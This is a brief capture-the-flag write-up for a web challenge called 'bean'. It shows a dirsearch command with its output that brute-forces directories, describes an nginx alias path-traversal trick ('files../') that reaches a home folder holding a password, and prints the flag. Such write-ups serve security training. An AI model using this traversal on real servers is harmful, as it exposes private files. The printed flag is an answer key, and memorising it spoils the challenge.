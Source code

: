 # Challenge Name:
 [*bean*](https://cybertalents.com/challenges/web/bean)
 
# Challenge Description
Come back home Mr Bean .

Link: [http://52.28.216.196/bean/](http://52.28.216.196/bean/)

## Answer
* Use Dirsearch tool to bruteforce directory of 'http://52.28.216.196/bean/' 
```bash
python3 dirsearch.py -u http://52.28.216.196/bean/
[07:27:39] Starting: 
[07:27:42] 200 -  404B  - /bean/%3f/
[07:28:39] 301 -  185B  - /bean/files  ->  http://52.28.216.196/files/
[07:28:39] 200 -    9KB - /bean/files/
[07:28:42] 200 -  404B  - /bean/index.html
```
* Navigate to 'http://52.28.216.196/bean/files/' it opens many files
* If we append '..' at the end of any directory name we can successfully jump to the upper level directory
* Navegate to 'http://52.28.216.196/bean/files../'
* Enter home folder
* You got the password!!


 ## The Flag
 > FLAG{Nginx_nOt_aLWays_sEcUre_bY_The_waY}
